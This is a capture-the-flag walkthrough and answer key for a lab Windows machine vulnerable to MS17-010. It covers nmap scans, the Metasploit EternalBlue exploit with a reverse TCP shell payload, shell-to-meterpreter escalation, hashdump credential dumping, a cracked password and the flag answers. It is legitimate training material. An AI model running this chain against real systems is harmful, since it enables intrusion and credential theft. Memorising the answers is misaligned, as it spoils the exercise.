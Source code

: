 # Task 1: Recon
## Scan the machine.How many ports are open with a port number under 1000?
~~~
sudo nmap -sV -sC -p-1000 <ip_address>
~~~
**Answer: 3**

## What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
~~~
nmap -sV --script vuln -oN nmap/initial <ip>
~~~
**Answer: ms17-010**

# Task 2: Gain Access
## Start Metasploit
Type **msfconsole** and search for **ms17-010**

## Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
~~~
**exploit/windows/smb/ms17_010_eternalblue **
~~~

## Show options and set the one required value. What is the name of this value? (All caps for submission)
**RHOSTS**

- Add a reverse shell payload and exploit

~~~
set payload windows/x64/shell/reverse_tcp
~~~

# Task 3: Escalate
## If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
~~~
post/multi/manage/shell_to_meterpreter
~~~

## Select this (use MODULE_PATH). Show options, what option are we required to change?
~~~
SESSION
~~~

# Task 4: Cracking
## Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
~~~
Jon
~~~

## Copy this password hash to a file and research how to crack it. What is the cracked password?
~~~
alqfna22
~~~

# Task 5: Flags
## Flag1? This flag can be found at the system root.
~~~
flag{access_the_machine}
~~~

## Flag2? This flag can be found at the location where passwords are stored within Windows.
~~~
flag{sam_database_elevated_access}
~~~

## flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
~~~
flag{admin_documents_can_be_valuable}
~~~